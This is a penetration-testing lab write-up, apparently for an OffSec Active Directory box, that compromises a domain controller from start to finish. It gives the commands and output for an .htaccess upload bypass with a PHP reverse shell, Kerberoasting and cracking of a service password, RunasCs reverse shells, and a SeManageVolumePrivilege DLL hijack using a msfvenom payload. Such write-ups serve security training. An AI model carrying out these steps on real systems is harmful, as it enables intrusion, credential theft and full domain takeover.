

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows Server 2019 (Active Directory DC) |
| Difficulty                | Hard |
| Attack Surface            | Web (Apache/PHP) + Active Directory |
| Primary Entry Vector      | .htaccess overwrite to upload PHP reverse shell |
| Privilege Escalation Path | Kerberoast svc_mssql -> RunasCs lateral move -> SeManageVolumePrivilege DLL hijack |

## Credentials

```text
svc_mssql / trustno1
```

## Reconnaissance

---
💡 Why this works
This stage maps the reachable attack surface and identifies where exploitation is most likely to succeed. Accurate service and content discovery reduces blind testing and drives targeted follow-up actions.

```bash
rustscan -a $ip -r 1-65535 --ulimit 5000
```

```bash
Open 192.168.198.187:53
Open 192.168.198.187:80
Open 192.168.198.187:88
Open 192.168.198.187:135
Open 192.168.198.187:139
Open 192.168.198.187:389
Open 192.168.198.187:443
Open 192.168.198.187:445
Open 192.168.198.187:464
Open 192.168.198.187:593
Open 192.168.198.187:636
Open 192.168.198.187:5985
```

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: access.offsec)
443/tcp   open  ssl/http      Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

The target is a Domain Controller running Apache with PHP. Kerberos (88), LDAP (389), and WinRM (5985) are open. Gobuster discovered a `/uploads` directory, suggesting file upload functionality.

## Initial Foothold

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.

The web application accepted file uploads but blocked PHP extensions. Uploading a custom `.htaccess` file bypassed this restriction:

```bash
echo "AddType application/x-httpd-php .dork" > .htaccess
```

After uploading the `.htaccess` file and a PHP reverse shell renamed to `.dork`, triggering the shell via `/uploads/` gave a callback:

```bash
nc -lvnp 443
```

```bash
connect to [192.168.45.166] from (UNKNOWN) [192.168.198.187] 51131
SOCKET: Shell has connected! PID: 708
Microsoft Windows [Version 10.0.17763.2746]

C:\xampp\htdocs\uploads>
```

This provided a shell as `svc_apache`. Next, SPN-registered accounts were enumerated for Kerberoasting:

```bash
PS C:\Users\svc_apache\Downloads\win_tool> .\Get-SPN.ps1
Object Name =  MSSQL
DN      =       CN=MSSQL,CN=Users,DC=access,DC=offsec
servicePrincipalNames
SPN( 1 )   =       MSSQLSvc/DC.access.offsec
```

A TGS ticket was requested and extracted using Invoke-Kerberoast:

```bash
PS> Invoke-Kerberoast -OutputFormat Hashcat
Hash : $krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec*$3B3A85A0...
SamAccountName : svc_mssql
ServicePrincipalName : MSSQLSvc/DC.access.offsec
```

The hash was cleaned and cracked offline:

```bash
tr -d '\n\r ' < mssql_tgs.txt > mssql_tgs.hash
hashcat -m 13100 -a 0 mssql_tgs.hash /usr/share/wordlists/rockyou.txt --force
```

```bash
$krb5tgs$23$*svc_mssql$access.offsec$MSSQLSvc/DC.access.offsec*$...:trustno1
```

WinRM login as `svc_mssql` failed (user not in Remote Management Users group), but `RunasCs` succeeded from the existing `svc_apache` shell:

```bash
PS> Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command cmd.exe -Remote 192.168.45.166:6666
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Async process 'C:\Windows\system32\cmd.exe' with pid 868 created in background.
```

```bash
rlwrap nc -lvnp 6666
connect to [192.168.45.166] from (UNKNOWN) [192.168.198.187] 50135

c:\Users\svc_mssql\Desktop>type local.txt
d994ec3ded2843ed66123b3a5bd9b534
```

💡 Why this works
The initial access step chains discovered weaknesses into executable control over the target. Successful foothold techniques are validated by command execution or interactive shell callbacks.

## Privilege Escalation

---
The `svc_mssql` user had `SeManageVolumePrivilege`, which was abused to gain write access to `C:\Windows\System32`:

```bash
PS C:\Users\Public\Downloads> .\SeManageVolumeExploit.exe
Entries changed: 16
DONE
```

A malicious DLL was generated and placed in a location where `systeminfo` would load it:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.166 LPORT=135 -f dll -o tzres.dll
```

```bash
PS C:\windows\system32\wbem> wget http://192.168.45.166:8001/tzres.dll -OutFile tzres.dll
PS C:\windows\system32\wbem> systeminfo
```

Running `systeminfo` triggered the DLL load and returned a shell:

```bash
nc -lvnp 135
connect to [192.168.45.166] from (UNKNOWN) [192.168.198.187] 50438

C:\Windows\system32>whoami
nt authority\network service
```

```bash
c:\Users\svc_mssql\Desktop>type c:\users\administrator\desktop\proof.txt
4953b5df2048836dae2d5eb33250261a
```

💡 Why this works
Privilege escalation relies on local misconfigurations, unsafe permissions, and trusted execution paths. Enumerating and abusing these trust boundaries is the fastest route to root-level access.

## Lessons Learned / Key Takeaways

- `.htaccess` upload bypass: if a web app blocks PHP extensions but allows `.htaccess` uploads, you can remap arbitrary extensions to execute as PHP.
- Kerberoasting workflow: enumerate SPNs with `Get-SPN.ps1`, request TGS with `Invoke-Kerberoast`, clean hash with `tr -d '\n\r '`, crack with hashcat `-m 13100`.
- RunasCs vs WinRM: when a user lacks Remote Management Users membership, use RunasCs for local lateral movement instead of remote WinRM.
- `SeManageVolumePrivilege` allows writing to system directories — place a malicious `tzres.dll` in `C:\Windows\System32\wbem\` and trigger it with `systeminfo`.

### Attack Flow

---
At this stage, the following command(s) are executed to progress the attack chain and validate the next hypothesis. We are specifically looking for actionable indicators such as open services, exploitability, credential exposure, or privilege boundaries. Key flags and parameters are preserved to keep the workflow reproducible for follow-along testing.



## References

- Invoke-Kerberoast: https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1
- RunasCs: https://github.com/antonioCoco/RunasCs
- SeManageVolumeExploit: https://github.com/CsEnox/SeManageVolumeExploit
- RustScan: https://github.com/RustScan/RustScan
- Nmap: https://nmap.org/
